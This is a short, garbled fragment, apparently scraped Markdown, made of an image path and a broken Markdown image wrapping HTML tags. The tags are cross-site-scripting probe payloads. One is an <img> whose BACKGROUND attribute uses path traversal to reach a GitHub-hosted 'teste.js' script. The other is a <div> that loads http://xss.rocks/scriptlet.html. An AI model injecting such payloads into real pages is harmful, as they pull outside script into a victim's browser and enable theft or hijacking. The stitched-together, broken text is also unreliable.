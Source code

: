 ![

<img BACKGROUND=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js?>

<div BACKGROUND="" src=http://xss.rocks/scriptlet.html>


](()
